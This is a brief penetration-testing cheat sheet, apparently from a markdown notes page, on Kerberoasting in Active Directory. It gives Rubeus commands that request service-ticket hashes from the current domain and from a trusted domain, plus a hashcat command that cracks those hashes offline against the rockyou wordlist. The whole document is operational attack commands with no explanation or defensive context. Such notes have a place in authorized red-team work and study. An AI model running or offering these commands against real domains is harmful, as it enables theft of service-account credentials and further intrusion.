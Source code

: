# Kerberoasting

### 1) Within current domain

    rubeus -- kerberoast /simple /nowrap

### 2) For a specific domain we have trust with

    rubeus -- kerberoast /simple /domain:domain.com /nowrap

### 3) Crack hashes

    hashcat -m 13100 -a 0 kerb.hashes /usr/share/wordlists/rockyou.txt -w 3 -O
